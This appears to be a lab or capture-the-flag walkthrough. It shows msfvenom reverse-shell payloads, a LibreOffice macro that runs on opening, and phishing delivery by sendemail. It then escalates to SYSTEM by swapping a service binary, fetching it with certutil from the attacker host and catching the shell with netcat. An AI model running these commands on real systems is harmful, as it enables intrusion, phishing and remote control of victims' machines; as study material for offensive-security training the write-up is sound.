





Make a .odt reverse shell:
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.201 LPORT=4444 -f hta-psh -o evil.hta
```
Then put the payload in the following **splitter.py**:

```
python3 splitter.py
```

Now we can make the .odt file from [[LibreOffice Macros]]:
Tools-> macros->Organise macros-->Basic

Now we can set the macro to run on opening document:
Tools-->Customise:


Now we can send it:
```
sendemail -f 'jonas@localhost' \
-t 'mailadmin@localhost' \
-s 192.168.219.140:25 \
-u 'a spreadsheet' \
-m 'Please check this spreadsheet' \
-a shell.ods
```
We get a shell:


We find veyon at `C:\User\Ela Arwel\Veyon`:

To check for unquoted service paths:
```
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
```

Create payload:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.201 LPORT=445 -f exe -o rev.exe
```
Start a python server
```
python3 -m uploadserver 80
```
Now in the target:
```
move veyon-service.exe veyon-service.bak
```
```
certutil -urlcache -f http://192.168.45.201:/rev.exe veyon-service.exe
```
Now restart:
```
shutdown /r /t 0
```
Listen for a shell:
```
rlwrap nc -nlvp 445
```
Now we are system:

